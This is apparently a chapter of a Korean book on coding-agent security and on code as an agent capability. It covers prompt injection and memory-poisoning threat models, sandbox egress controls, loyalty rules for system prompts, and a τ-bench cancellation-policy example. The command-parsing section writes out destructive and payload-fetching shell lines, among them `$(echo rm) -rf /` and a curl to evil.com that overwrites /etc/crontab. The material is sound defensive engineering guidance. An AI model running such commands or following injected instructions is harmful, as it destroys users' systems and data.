이 절에서는 코딩 에이전트의 방어 수단을 일관된 프레임워크로 정리합니다. 먼저 어떤 위험이 가장 치명적인지 설명하는 **위협 모델**, 이어서 샌드박스의 네트워크 이그레스, 파일 시스템, 리소스 제한을 다루는 **안전망으로서의 격리**, 명령의 의미론적 파싱과 보안 검사를 "보이지 않게" 만드는 추측 실행을 포함한 **실행 시점 방어**, 마지막으로 다자간 위임에서 에이전트가 누구를 섬기는지, AI가 작성한 코드 자체를 신뢰할 수 없을 때 신뢰 경계를 어떻게 데이터 계층까지 내리는지를 다루는 **신뢰와 충성도**를 살펴봅니다. 위협 모델, 충성도, 신뢰 경계에 관한 논의는 모든 에이전트에 적용되지만, 샌드박스와 명령 파싱은 코딩 에이전트에 특화된 내용입니다.

이러한 "주권적 에이전트" 패러다임은 심각한 보안 문제도 불러옵니다. 코딩 에이전트는 파일을 읽고 쓰며, 명령을 실행하고, 네트워크에 접근할 권한이 있으므로 악의적인 명령이 주입되면 돌이킬 수 없는 피해를 일으킬 수 있습니다. 개발자이자 독립 연구자인 Simon Willison은 이 위험을 유명한 "치명적 삼각형(Lethal Triad)"으로 요약했습니다. 다음 세 요소가 모두 존재하면 완전한 공격 루프가 형성되어 시스템이 큰 위험에 놓입니다.

1.  **개인 데이터에 대한 접근** — 에이전트가 사용자 파일과 비밀번호 관리자를 읽을 수 있습니다.
2.  **신뢰할 수 없는 콘텐츠에 대한 노출** — 처리하는 이메일과 웹 페이지에 악성 페이로드가 포함될 수 있습니다.
3.  **외부와 통신할 수 있는 능력** — 이메일을 보내고 명령을 실행할 수 있습니다.

이로써 공격 루프가 완성됩니다. 신뢰할 수 없는 콘텐츠에 숨겨진 악성 명령이 에이전트에 들어와 개인 데이터를 읽게 하고, 외부 채널을 통해 이를 유출합니다. 다른 조건이 없어도 이 세 요소가 함께 존재한다는 사실만으로 충분히 위험하다는 점에 유의해야 합니다. 저자는 여기에 네 번째 차원인 **영구 메모리**를 추가합니다. 이는 병렬적인 네 번째 필수 조건이 아니라 공격의 증폭기입니다. 공격자는 겉보기에는 무해한 편향이나 악성 명령을 에이전트의 장기 메모리에 써 넣을 수 있습니다. 이 내용은 여러 세션에 걸쳐 잠복하다가 적절한 순간에 발동하여, 일회성 공격을 오랫동안 숨어 있고 시간이 지날수록 누적되는 위협으로 바꿉니다.

이 네 가지 항목은 데이터 경계, 입력 신뢰 경계, 출력 영향 경계, 세션 간 경계라는 네 유형의 경계로 요약할 수 있습니다. OpenClaw처럼 모든 권한을 가진 로컬 에이전트는 네 가지 위험 차원을 모두 넘나들기 때문에, 보안 방어는 이러한 에이전트가 반드시 해결해야 할 핵심 과제입니다.

이는 폐쇄형 상용 에이전트(예: Claude Code의 에이전트 아키텍처를 재사용하며 로컬 파일을 읽고 쓰고 여러 오피스 애플리케이션에 걸친 다단계 작업을 수행할 수 있는 Anthropic의 지식 작업용 범용 에이전트 Claude Cowork)가 보수적인 권한 전략을 선택한 이유도 설명합니다. 프롬프트 인젝션에는 입력 필터링만으로 거의 도움이 되지 않습니다. 목표는 모든 공격을 식별하는 것이 아니라, 명령을 주입당한 에이전트가 위험한 행동을 끝까지 실행할 기회 자체를 갖지 못하게 하는 것입니다. 바로 이 지점에서 1장의 3층 가드레일이 힘을 발휘합니다. 다른 에이전트와 비교해 코딩 에이전트가 특히 주의해야 할 점은 다음과 같습니다.

- **명령 의미론 파싱** — 셸 명령의 조합이 폭발적으로 늘어나므로 키워드 블랙리스트는 쓸모가 없습니다. 명령의 실제 효과를 의미 수준에서 이해해야 합니다(이 절 뒤쪽에서 자세히 설명합니다).
- **샌드박스 격리와 네트워크 이그레스 제어** — 코드 실행은 코딩 에이전트에 고유한 공격 표면입니다. 격리 수준과 이그레스 전략에 관한 엔지니어링 선택은 이 절 뒤쪽에서 다룹니다.
- **영구 메모리의 세션 간 방어** — 이 장은 치명적 삼각형 분석을 영구 메모리까지 확장합니다. 장기 메모리에 기록되는 콘텐츠는 외부 입력과 동일한 신뢰성 검토를 거쳐야 하며, 그래야 악성 명령이 `MEMORY.md`에 잠복했다가 나중에 효력을 발휘하는 일을 막을 수 있습니다.

이 세 가지 보호 수단은 각각 검증, 실행, 데이터 계층에 속하며 앞선 두 장의 방어 체계를 보완합니다. 이러한 전략으로 위험을 완전히 없앨 수는 없지만 에이전트의 공격 표면을 줄일 수 있습니다.

**안전망으로서의 격리: 코드 실행 샌드박스를 위한 엔지니어링 선택.**

- **네트워크 이그레스 제어.** 가장 쉽게 간과하지만 가장 중요한 항목입니다. 기본적으로 네트워크를 차단하고, 허용 목록 프록시를 통해 제한된 대상(패키지 소스, 문서 사이트, 작업에서 명시적으로 요구하는 API)에만 필요할 때 접근 권한을 부여합니다. 치명적 삼각형의 세 번째 항목인 "외부와 통신할 수 있는 능력"을 되짚어 보면, 네트워크 이그레스 제어는 이에 대한 실행 계층 방어입니다. 프롬프트 인젝션이 성공하여 악성 코드가 샌드박스 안의 민감한 데이터를 읽더라도, 이그레스 경로가 없으면 데이터를 전송할 수 없습니다. 모든 인젝션을 식별하려는 시도에 비해 데이터 유출 채널을 차단하는 편이 훨씬 더 결정론적인 방어선입니다.
- **파일 시스템 격리 범위.** 소스 코드 디렉터리는 읽기 전용으로 마운트합니다(에이전트는 편집 도구로 코드를 수정하고, 생성된 패치는 검토 후 디스크에 기록하거나, 복사본을 쓰기 가능한 작업 공간에 마운트합니다). 별도의 쓰기 가능한 작업 공간 디렉터리에 생성된 산출물과 중간 파일을 보관합니다. 자격 증명 파일(`~/.ssh`, 키, 토큰)은 샌드박스에 아예 마운트하지 않습니다. 보이지 않는 데이터는 유출할 수 없으며, 이는 치명적 삼각형의 첫 번째 항목에 대응합니다.
- **리소스 제한과 시간 초과.** CPU, 메모리, 디스크에 할당량을 설정하고 실제 경과 시간 기준의 시간 초과를 두어 무한 루프, 포크 폭탄(시스템이 중단될 때까지 자신을 빠르게 복제하는 프로세스), 무제한 디스크 쓰기를 방어합니다. 한 가지 실무적인 세부 사항이 있습니다. 시간 초과나 제한 위반이 발생하면 프로세스를 조용히 종료하지 말고 에이전트에 구조화된 오류("120초 후 실행이 종료되었습니다. 마지막 출력은 ...입니다")를 반환해야 합니다. 그러면 에이전트가 다음 턴에 전략을 수정할 수 있습니다.
- **영구 세션과 격리의 양립.** 뒤의 "명령 실행 환경의 상태 지속성" 절에서는 장시간 유지되는 터미널 세션을 권장하지만, 격리 원칙은 일회용 환경을 권장하므로 둘 사이에는 긴장이 존재합니다. 이를 조화시키는 방법은 **샌드박스 안에서만 세션을 유지하는 것**입니다. 터미널 세션은 절대로 샌드박스보다 오래 살아남아서는 안 되며, 세션 상태가 호스트 머신으로 빠져나가서도 안 됩니다. 앞에서 설명한 세션리스 아키텍처처럼 긴 시간 간격을 두고 복구해야 하는 시나리오에서는 샌드박스의 수명을 무기한 연장하는 대신, 샌드박스 스냅샷이나 "작업 공간 파일 지속성 + 스크립트를 통한 환경 재구성"을 사용해 상태를 복원합니다. 다시 말해 지속하는 것은 불투명한 실행 프로세스가 아니라 **감사 가능한 상태 설명**(파일, 스크립트, 매니페스트)입니다.

**안전성: 키워드 블랙리스트보다 의미론적 파싱.**

1장에서는 검증 계층이 패턴 일치가 아니라 의미 이해에 의존해야 한다고 주장했습니다. 셸 명령의 보안 검증은 이 원칙을 적용하기 가장 어려운 사례입니다. 단순한 키워드 블랙리스트로는 셸 명령의 조합 폭발에 대응할 수 없습니다. 파이프, 서브셸, 변수 확장 등을 사용하면 어떤 정적 규칙도 우회할 수 있습니다(예를 들어 `rm`을 차단해도 공격자는 `$(echo rm) -rf /`로 우회할 수 있습니다). 프로덕션 수준의 하네스(harness)는 의미론적 파싱을 사용합니다. 각 명령의 인수 유형과 파싱 규칙, 뒤따르는 인수를 소비하는 플래그를 식별하고, 겉보기에는 무해한 플래그가 다음 인수에 위험한 페이로드를 숨기는 식의 공격 패턴을 인식합니다. 예를 들어 `find / -name '*.log' -exec rm {} \;`는 정상적인 `find` 명령의 인수 안에 `rm` 삭제 작업을 삽입합니다. 또 다른 예인 `curl -o /etc/crontab http://evil.com/payload`는 파일을 다운로드하는 것처럼 보이지만 실제로는 시스템의 예약 작업을 덮어씁니다. 의미론적 파싱은 이러한 중첩된 위험 작업을 식별할 수 있지만, 단순한 명령 블랙리스트로는 포착할 수 없습니다. 일치가 아니라 이해에 기반한 이 보안 메커니즘은 "제약" 기능을 고수준에서 구현한 것입니다.

**추측 실행: 보안 검사를 "보이지 않게" 만들기.** 사용자 경험 관점에서 이는 4장의 사이드카 게이팅 메커니즘이 만드는 효과입니다. 4장에서는 중요한 작업을 주 컨텍스트와 독립된 사이드카가 검토해야 하는 이유를 설명했고, 여기서는 그 검토 지연을 사용자가 사실상 느끼지 못하게 하는 방법에 초점을 맞춥니다. 사용자에게 보이는 진행 상황과 실행 권한 부여를 분리하는 방식입니다. 에이전트가 도구 호출을 실행하려 할 때 보안 검사는 백그라운드에서 수행하고, 시스템은 인터페이스에 진행 알림(예: "`src/main.py` 파일을 읽는 중...")을 표시합니다. 흔히 쓰이는 비유와 관련해 한 가지 명확히 해야 합니다. 이는 CPU의 추측 실행과 다릅니다. CPU가 잘못 추측하면 계산 결과를 폐기하고 상태를 롤백해야 하지만, 여기서 사전 작업은 실제 상태를 전혀 바꾸지 않는 **부작용 없는 UI 알림**에 불과합니다. 검사가 실패해도 롤백할 필요 없이 알림을 "확인 대기 중"으로 바꾸기만 하면 됩니다. 대부분은 사용자가 알아차리기 전에 보안 검사가 끝나므로 추가 지연을 느끼지 않습니다. 빠르게 판단할 수 없을 때만 시스템이 실제로 일시 정지하고 확인을 기다립니다. 사용자 경험을 희생하지 않으면서 보안을 확보하는 하네스 설계의 정점입니다.

**에이전트는 누구를 섬기는가: 다자간 위임에서의 충성도.**

위의 보안 메커니즘은 "명령이 악의적으로 실행되는 것"을 방지합니다. 하지만 더 미묘한 보안 문제가 있습니다. 바로 **위임 주체에 대한 충성도(principal loyalty)**, 즉 **에이전트가 실제로 누구의 편에 서는가**입니다. 모델은 "나에게 말을 거는 사람이 누구든 최선을 다해 돕는다"는 순진한 기본 원칙에 따라 학습되지만, 현실의 에이전트는 위임 주체를 대신해 행동하면서 이해관계가 충돌하는 제3자를 상대하는 **다자간 위임** 상황에서 자주 작동합니다. 사용자를 대신해 가격을 협상하는 에이전트가 마주하는 상대는 "도움이 필요한 사용자"가 아니라 **협상 상대방**입니다. 이때 "말을 거는 사람은 누구든 돕는다"는 기본값은 위험합니다. 상대방은 에이전트와 대화를 시작하는 것만으로도 사용자의 에이전트에 영향을 줄 수 있습니다.

프런티어 모델을 이런 상황에 두면 양 끝이 모두 실패하는 명확한 **충성도 스펙트럼**이 나타납니다[^ch5-1]. 한쪽 끝은 **지나치게 정직한 경우**로, 위임 주체의 비공개 정보(예: "우리의 최저선은 12,000입니다")를 상대방에게 그대로 넘기고 몇 차례 압박만 받아도 굴복합니다. 반대쪽 끝은 **지나치게 의심하는 경우**로, 위임 주체의 정당한 요청까지 거부하여 작업을 실패시킵니다. 어려운 점은 두 실패가 시소처럼 맞물려 있다는 것입니다. 정보 유출을 막으면 과잉 거부 쪽으로 기울기 쉬워 두 가지를 모두 만족하기가 어렵습니다.

이는 코딩 에이전트와 특히 밀접합니다. 저장소에서 읽은 신뢰할 수 없는 콘텐츠, 도구가 반환한 출력, 제3자 MCP 서버가 보낸 지침은 모두 에이전트를 회유하려는 "상대방"입니다. **프롬프트 인젝션은 본질적으로 회유 시도입니다**(2장과 4장). 따라서 하네스는 에이전트가 누구에게 충성하는지 명시적으로 못 박아야 합니다. 위임 주체의 지침에는 가장 높은 우선순위를 부여하고, 외부 당사자가 보낸 모든 내용은 기본적으로 "참고할 수는 있지만 지시로서의 강제력은 없는 데이터"로 낮춥니다. 시스템 프롬프트에 효과적인 **충성 행동 강령**을 넣을 수 있습니다. 위임 주체의 비공개 정보와 그러한 정보가 존재한다는 사실까지 보호할 것, 거부할 때 보호 대상의 세부 사항을 나열하지 말 것(그 자체가 정보 유출이 될 수 있기 때문입니다), 비공개 최저선은 공개 입장이 아니라는 점, 위임 주체의 명확하고 구체적인 지시만 실행할 것, 반복되는 압박을 견딜 것입니다. 본질적으로 하네스를 사용해 모델의 기본값에는 없는 입장, 즉 **위임 주체에 대한 절대적인 충성과 외부 당사자에 대한 신중함**을 부여하는 것입니다.

[^ch5-1]: 이 충성도 스펙트럼과 행동 강령의 전체 평가는 Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026에서 확인할 수 있습니다.

**AI가 작성한 코드 자체를 신뢰할 수 없을 때: 신뢰 경계를 아래로 내리기.**

위의 충성 행동 강령은 에이전트가 규칙을 따를 **가능성**을 높입니다. 그러나 위험도가 높은 데이터 작업에서는 "가능성이 높다"는 것으로 충분하지 않습니다. 제약을 "에이전트가 올바르게 행동하기를 바라는" 수준에서 데이터 계층의 강제 수준까지 내려야 합니다. 더 급진적인 입장[^ch5-2]은 **애플리케이션 계층을 아예 신뢰할 수 없는 것으로 간주하고, 데이터 불변 조건의 집행을 그 아래로 내리는 것**입니다. 지난 30년간 소프트웨어의 무결성 경계는 **애플리케이션 계층**에 있었습니다. 핸들러 코드가 각 작업을 누가 수행할 수 있고 어떤 값이 유효한지 결정했으며, 데이터베이스는 그 코드를 무조건 신뢰했습니다. 하지만 LLM이 생성한 핸들러는 사람이 당연히 포함했을 권한과 무결성 검사를 누락하는 경우가 많고, 자율 에이전트는 프로덕션 데이터에 직접 작업하므로 이 전제가 무너집니다. 새로운 접근법(권한 내장 데이터 객체, Permission-Embedded Data Objects라고 부를 수 있습니다)은 각 데이터 엔터티가 **사람이 검토한 스키마** 안에 선언적 권한 규칙, 검증기, 결과 명세를 지니게 하고, 런타임 파이프라인이 **모든 쓰기 작업**에서 이를 집행합니다. 핵심 기본 요소는 모든 작업에 첨부되는 **접근 컨텍스트**입니다. 새로 생성한 핸들러는 자신이 서비스하는 사용자의 권한으로 실행되지만, 자율 에이전트는 권한 범위가 제한된 자체 주체(scoped principal)로 실행됩니다. 에이전트가 충성하기를 바라는 데 그치지 않고 아키텍처가 에이전트를 제한된 권한 주체로 취급하므로, 침해되더라도 자신의 권한을 넘어설 수 없습니다.

같은 프롬프트 세트를 사용한 비교에서 이 메커니즘은 **선언된 불변 조건을 위반하는 쓰기 작업이 하나도 없었던** 반면, 가공하지 않은 SQL, LLM이 작성한 검사, 헌법적 프롬프트, 작업 경계 인터셉터는 각각 몇 건에서 수십 건까지 위반을 허용했습니다. 쓰기 작업마다 약 2밀리초의 추가 비용으로 "정답일 가능성이 더 높다"가 아니라 "틀릴 수 없다"를 달성합니다. 물론 이 보장은 조건부입니다. 스키마가 원하는 모든 불변 조건을 실제로 담아야 하고, 배포 시 신뢰할 수 없는 계층이 스토리지를 우회해 데이터베이스에 직접 연결할 수 있는 모든 경로를 차단해야 합니다. 이는 코딩 에이전트에 중요한 아키텍처 원칙을 제시합니다. **코드 작성자와 코드 실행자를 모두 신뢰할 수 없을 수 있다면, 진정으로 신뢰할 수 있는 제약은 생성된 코드 안에 있을 수 없고 사람이 검토한 하위 기반에 배치해야 합니다.** 이는 1장의 "지침보다 제약" 원칙을 데이터 계층에 적용한 궁극적인 형태입니다.

[^ch5-2]: "신뢰 경계를 애플리케이션 계층 아래로 내리는" 설계와 평가(여러 솔루션의 전체 위반 건수 비교 포함)는 Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026(출간 예정)에서 확인할 수 있습니다.

## 코드: 범용 에이전트의 메타 역량

앞 절에서는 아키텍처부터 도구 구현, 하네스 엔지니어링까지 신뢰할 수 있는 코딩 에이전트를 만드는 방법을 살펴보았습니다. 하지만 코드 생성의 가치는 프로그램 작성에만 머물지 않습니다.

> **"메타 역량"이란 무엇일까요?** 일반 역량은 질문에 답하고, 특정 API를 호출하고, 텍스트를 생성하는 것처럼 에이전트가 특정한 일을 수행하는 능력입니다. **메타 역량**은 "다른 능력을 만들어 낼 수 있는" 능력입니다. 에이전트는 모든 역량을 미리 구축하지 않아도 이를 사용해 작업에 필요한 새 도구, 새 제약, 새 표현 형식을 그때그때 작성합니다. 코드 생성이 바로 그런 메타 역량입니다. 코드는 정확하고 실행 가능하며 조합할 수 있으므로 새 도구(스크립트, API 호출 순서), 새 제약(어서션, 검증 규칙), 새 표현 형식(HTML 양식, PPT, 비디오 프레임)을 만들 수 있습니다.

이 때문에 에이전트 시스템에서 코드가 맡는 역할은 "프로그램 작성"을 훨씬 넘어섭니다. 이어지는 여섯 절에서는 이 메타 역량이 프로그래밍을 넘어 적용되는 여섯 가지 방향을 차례로 보여 줍니다. 이 여섯 방향은 단순한 병렬 목록이 아닙니다. 메타 역량을 적용하는 대상을 기준으로 안에서 밖으로 진행합니다.

1.  **사고 자체** — 오류가 발생하기 쉬운 자연어 사고를 코드로 대체합니다(사고 도구).
2.  **비즈니스 규칙** — 모호한 정책을 실행 가능한 제약으로 인코딩합니다(비즈니스 규칙 제약).
3.  **콘텐츠 표현** — PPT, 비디오, 시각화 산출물을 생성합니다(멀티미디어 생성).
4.  **시스템 인터페이스** — 이기종 API를 연결하고 변화하는 데이터 형식에 자동으로 적응합니다(시스템 어댑터).
5.  **사용자 인터페이스** — 양식과 대화형 인터페이스를 동적으로 구성합니다(생성형 UI).
6.  **에이전트 자체** — 코드로 새 에이전트를 만들거나 복구하여 부트스트래핑을 가능하게 합니다.

### 사고 도구로서의 코드

LLM은 자연어를 이해하고 생성하는 데 탁월하지만 정확한 계산, 기호 조작, 엄밀한 논리적 추론에는 근본적으로 약합니다. 모델의 사고는 본질적으로 확률적이고 근사적인 반면, 수학과 논리 문제는 결정론적이고 정확한 답을 요구하기 때문입니다. 구체적인 비교를 보면 이 점이 분명해집니다.

```text
문제: "한 학급에 학생 40명이 있다. 60%는 수학을, 45%는 물리학을 듣고 25%는 둘 다 듣는다.
       수학은 듣지 않고 물리학만 듣는 학생은 몇 명인가?"

순수 자연어 사고(오류가 나기 쉬움):                    코드 사고(정확하고 검증 가능):
"수학 수강생 60% = 24명,                               math = int(40 * 0.60)    # 24
 물리학 수강생 45% = 18명,                            phys = int(40 * 0.45)    # 18
 둘 다 듣는 학생 25% = 10명,                          both = int(40 * 0.25)    # 10
 물리학만 듣는 학생 = 24 - 10 = 14명"                 only_phys = phys - both  # 8
→ 수학 수강생 수에서 잘못 빼서 오답                     → print(only_phys)  # 8 ✓
```

LLM은 문제 이해와 코드 작성을, 코드 인터프리터는 정확한 계산을 담당하게 하면 각자의 강점을 살릴 수 있습니다.

Mathematica를 만든 Stephen Wolfram은 이에 관해 깊이 있는 통찰을 제시했습니다. LLM이 등장하기 전에도 정확한 수학 계산을 수행하는 시스템이 있었습니다. 이들은 근삿값이 아니라 수학 기호로 표현식을 처리하는 **기호 계산(Symbolic Computation)**을 사용했습니다. 예를 들어 일반 계산기는 $\sqrt{2}$를 1.414로 근사하지만, 기호 계산 시스템은 정확한 형태인 $\sqrt{2}$를 유지하고 필요할 때만 소수로 변환합니다. Wolfram이 만든 Wolfram Alpha가 그러한 시스템입니다. 사용자가 수학 문제를 입력하면 정확한 답을 반환합니다. 하지만 자연어 이해는 상당히 취약하고 다루는 범위도 좁습니다. 제한된 표현만 인식하는 내장 문법 파서에 의존하므로 표현이 조금만 달라져도 파싱에 실패할 수 있고, 개방형 다단계 사고는 당연히 처리하지 못합니다. LLM은 이 틈을 완벽히 메웁니다. 다양한 자연어 표현을 이해하는 데 뛰어나지만 정확한 계산에는 약합니다. 새로운 협업 모델은 다음과 같습니다. LLM이 사용자의 자연어 질문을 이해하고 그 안의 수학적·논리적 구조를 찾아 Mathematica 언어나 Python의 SymPy 라이브러리 같은 형식 언어로 번역합니다. 그런 다음 전용 기호 계산 엔진이나 제약 솔버에 넘겨 실행하고 정확한 결과를 얻습니다.

> **실험 5-1 ★★: 코드 생성 도구로 수학 문제 해결 능력 향상하기**
>
> **실험 목표**: 코드 인터프리터의 도움을 받을 때 에이전트의 수학적 사고 정확도가 향상되는지 검증합니다.
>
> **기술적 접근법**: sympy, numpy, scipy 같은 수학 라이브러리가 포함된 Python 샌드박스를 에이전트에 제공합니다. 수학 문제를 만나면 에이전트가 이를 Python 코드로 형식화합니다. 기호 계산(미적분, 방정식 풀이)에는 sympy, 수치 최적화에는 scipy, 행렬 연산에는 numpy를 사용합니다. 생성한 코드를 샌드박스에서 실행해 정확한 결과를 반환합니다.
>
> **인수 기준**: AIME(American Invitational Mathematics Examination)를 본뜬 문제로 평가합니다. 순수한 사고 사슬 추론과 코드 보조 사고의 정확도를 비교하며, 코드 보조 모드의 정확도가 유의미하게 높아야 합니다. 코드가 수학 라이브러리를 올바르게 사용하고 풀이 과정이 논리적으로 명확한지도 확인합니다.
>

> **실험 5-2 ★★: 코드 생성 도구로 논리적 사고 능력 향상하기**
>
> **실험 목표**: 제약 풀이 코드의 도움을 받아 논리적으로 사고하는 에이전트의 능력을 평가합니다.
>
> **기술적 접근법**: python-constraint 라이브러리를 포함한 코드 인터프리터를 에이전트에 제공합니다. 에이전트는 기사와 악당(Knights and Knaves) 문제 같은 논리 퍼즐을 형식적인 제약 모델로 번역합니다. 변수(각 섬 주민의 정체)를 식별하고 "기사는 진실을 말한다" 같은 규칙을 제약으로 인코딩한 뒤 솔버를 호출하여 이를 만족하는 할당을 찾습니다.
>
> **인수 기준**: [K&K 퍼즐 데이터셋](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves)으로 평가합니다. 코드 보조 모드는 순수 사고 모드보다 유의미하게 높은 90% 이상의 풀이 정확도를 달성해야 합니다.
>

이 실험은 더 일반적인 패턴도 보여 줍니다. 모델과 하네스 사이에는 절충 관계가 있습니다. 모델이 충분히 강하면 하네스를 더 얇게 만들 수 있습니다. 모델이 스스로 올바르게 사고하므로 코드 솔버가 주는 이점이 줄어듭니다. 모델이 약하면 하네스가 더 많은 일을 해야 합니다. 핵심 논리적 사고를 코드와 제약 솔버에 맡겨 정확성을 보장합니다. 이 실험에서 의도적으로 약한 모델을 사용한 것도 대조를 확대하기 위해서입니다. 약한 모델은 순수 사고에서 끊임없이 계산을 틀리지만 코드 보조를 사용하면 정확도가 크게 올라갑니다. 충분히 강한 사고 모델은 순수 사고만으로도 모든 퍼즐을 푸는 경우가 많아 코드 보조의 이점이 거의 0에 수렴합니다. 따라서 하네스가 얼마나 두꺼워야 하는지는 모델의 역량 경계가 어디에 있는지에 따라 달라집니다. 이는 모든 에이전트 기법을 평가할 때 쉽게 간과하는 전제입니다. 같은 하네스도 서로 다른 성능의 모델과 결합하면 정반대의 결론을 뒷받침할 수 있습니다.

### 비즈니스 규칙의 제약으로서의 코드

이 절은 앞에서 다룬 하네스 엔지니어링 절에 대한 직접적인 응답입니다. 하네스의 핵심 원칙 중 하나는 "제약: 문서화하지 말고 인코딩하라"입니다. 규칙을 자연어 문서에서 실행 가능한 코드로 바꾸어 권고 지침이 아니라 시스템 행동에 대한 필수 제약으로 만드는 것입니다. 코드 생성을 사용하면 에이전트가 이 변환 과정을 자율적으로 수행할 수 있습니다.

자연어로만 기술한 비즈니스 규칙, 워크플로, 의사결정 로직은 모호함으로 가득합니다. "합리적인 환불 요청"이란 무엇일까요? 무엇이 "긴급 상황"에 해당할까요? 그 경계를 자연어로 정의하기는 어렵습니다. "구매 후 7일 이내 환불 가능"은 명확해 보이지만 역일일까요, 영업일일까요? "구매"는 주문을 넣은 시점일까요, 배송한 시점일까요? 반면 코드는 모호하지 않고 실행 가능한 지식 표현입니다. 실행되거나 오류가 발생할 뿐 그 사이의 상태는 없습니다.

**복잡한 비즈니스 규칙을 정확하게 표현하기.**

**자연어 규칙과 코드화한 규칙: 서로 대체하는 것이 아니라 보완하는 관계**

시스템 프롬프트에 규칙을 작성하면 모델이 사용자에게 **정책을 설명**하고, **정책을 준수하는 대안**(예: "취소 대신 예약 변경")을 찾으며, 도구를 호출하기 전에 실현 가능성을 예비 판단할 수 있습니다.

규칙을 검증 도구로 코드화하면 세 가지 이점이 있습니다. **정확하고 모호하지 않은 의사결정 로직**, 같은 입력이 언제나 같은 출력을 만드는 **결정론적 실행**, 여러 조건의 불리언 로직, 시간 계산, 데이터 원본 간 검증 같은 **복잡한 규칙 조합**의 효과적인 처리입니다.

실무에서는 둘을 함께 사용해야 합니다. 시스템 프롬프트에는 이해와 커뮤니케이션을 위한 자연어 규칙을 넣고, 핵심 의사결정 지점에는 규정 준수를 보장하는 "게이트키퍼" 역할의 코드화된 검증 도구를 둡니다.

코드화한 규칙의 진정한 가치는 토큰 효율이 아니라 **돌이킬 수 없는 실수를 방지하는 것**입니다. 주문 취소, 자금 이체, 데이터 삭제는 한 번 실행하면 되돌릴 수 없을 수 있습니다. 코드화한 검증은 작업 앞에 최후의 방어선을 두며, 이 보장의 가치는 구현 비용보다 훨씬 큽니다.

**검증과 실행 결합: 체크리스트는 사고를 이끌고, 정답 검증은 관문을 지킨다**

별도의 검증 도구를 만들지 말고 실행 도구 안에 검증을 넣을 수 있습니다. 항공사와 전자상거래 고객 서비스 시뮬레이션에서 도구 사용과 정책 준수를 평가하도록 설계된 벤치마크 τ-bench의 항공편 취소 정책을 살펴보겠습니다.

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # Optional: for model self-check; server uses database ground truth for verification
    expected_has_insurance: bool = None  # Optional: for model self-check; same as above
) -> dict:
    """
    Cancel a flight reservation.

    Cancellation policy (enforced server-side based on database ground truth):
    - Rule 1: Reservations with any used segments cannot be cancelled
    - Rule 2: Reservations can be unconditionally cancelled within 24 hours of booking
    - Rule 3: Flights cancelled by the airline can always be cancelled
    - Rule 4: Business class can always be cancelled
    - Rule 5: Basic economy and economy require travel insurance to be cancelled

    Before calling, please query the order details and check each rule above one by one. The expected_* parameters
    record the basis for your judgment. The server compares them with authoritative data for auditing, but they do
    not affect the policy decision.
    """
    # All policy facts are read from the database; never trust values reported by the model
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Server clock, not provided by the model

    # Log a warning if the model's self-reported value does not match the ground truth, to detect erroneous beliefs or potential injection
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking < 0:
        return {"success": False, "reason": "Booking time is in the future"}
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

이 설계의 가치는 두 수준에서 이해해야 합니다.

**첫 번째 수준: 사고 체크리스트로서의 매개변수.** 도구 설명에는 전체 취소 정책을 나열하고 모델이 "호출 전에 주문 세부 정보를 조회하고 각 조건을 하나씩 확인"하도록 요구합니다. 선택적 `expected_*` 매개변수는 모델이 자신의 사고를 명시적으로 적도록 한 번 더 유도합니다. 이 매개변수를 채우려면 모델이 먼저 조회 도구를 호출하여 주문 세부 정보를 얻고 각 조건을 하나씩 확인해야 하므로, 매개변수 작성이 **필수 체크리스트** 역할을 합니다. 모델은 좌석 등급이 이코노미이고 보험을 구매하지 않았다는 사실을 확인하면 호출을 준비하는 동안 규칙 5를 알아차리고, 호출을 **시작하지 않은 채** 사용자에게 "보험이 없는 이코노미석은 취소할 수 없습니다. 보험을 구매한 뒤 취소하거나 예약 변경을 고려해 주세요"라고 직접 알릴 수 있습니다. 이 계층은 사고를 이끌고 유효하지 않은 호출을 줄이지만 보안 경계는 아닙니다. `expected_*` 값은 모델이 스스로 보고한 주장일 뿐, 서버가 신뢰하는 사실이 아닙니다.

**두 번째 수준: 게이트키퍼로서의 서버 측 정답 검증.** 코드의 핵심 설계를 눈여겨보아야 합니다. 좌석 등급, 보험 상태, 예약 시간, 구간 사용 여부, 항공편 상태를 서버가 모두 데이터베이스에서 조회하고, 현재 시간은 서버 시계에서 가져옵니다. **정책에 쓰이는 어떤 사실도 모델이 스스로 보고한 매개변수에서 가져오지 않습니다.** 이는 불필요한 중복이 아닙니다. 모델은 환각을 일으키거나 프롬프트 인젝션에 조종될 수 있으며, 앞의 치명적 삼각형 분석에서 보았듯 단일 컨텍스트 안에서 작동하는 에이전트는 자신의 행동을 신뢰성 있게 검증할 수 없습니다. `cabin_class`, `has_insurance`, 나아가 `current_time`까지 모델이 채우는 매개변수로 설계했다면 우연이든 유도된 것이든 거짓 값 하나로 게이트키퍼를 우회할 수 있습니다. 최후의 방어선은 모델이 위조할 수 없는 데이터 위에 세워야 합니다. 이는 "중요한 작업에는 독립적인 검증이 필요하다"는 앞선 입장과 일치합니다. 여기서 독립성이란 독립된 모델뿐 아니라 독립된 데이터 원본도 뜻합니다.

